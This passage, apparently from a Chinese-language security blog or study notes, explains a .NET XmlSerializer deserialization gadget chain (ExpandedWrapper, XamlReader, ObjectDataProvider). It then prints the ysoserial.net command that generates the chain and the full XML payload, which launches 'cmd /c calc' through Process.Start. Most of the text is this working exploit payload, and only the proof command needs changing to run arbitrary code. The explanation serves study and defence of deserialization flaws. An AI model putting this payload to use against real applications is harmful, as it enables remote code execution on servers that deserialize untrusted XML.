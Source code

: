 ![image-20240328144318865](images/8.png)

到现在攻击链就一目了然了

1. 首先是通过XmlSerializer触发`ExpandedWrapper<XamlReader, ObjectDataProvider>`包装的ObjectDataProvider
2. 这个ObjectProvider的作用是调用XamlReader的parse方法解析xaml执行命令的payload
3. xaml的payload包装的是一个ObjectDataProvider调用Process来执行命令

现在来看yso生成的链子

```
ysoserial.exe -g ObjectDataProvider -c calc -f xmlserializer
```

```
<?xml version="1.0"?>
<root type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" >
        <ExpandedElement/>
        <ProjectedProperty0>
            <MethodName>Parse</MethodName>
            <MethodParameters>
                <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
                    <![CDATA[<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" xmlns:b="clr-namespace:System;assembly=mscorlib" xmlns:c="clr-namespace:System.Diagnostics;assembly=system"><ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start"><ObjectDataProvider.MethodParameters><b:String>cmd</b:String><b:String>/c calc</b:String></ObjectDataProvider.MethodParameters></ObjectDataProvider></ResourceDictionary>]]>
                </anyType>
            </MethodParameters>
            <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
        </ProjectedProperty0>
    </ExpandedWrapperOfXamlReaderObjectDataProvider>
</root>
```

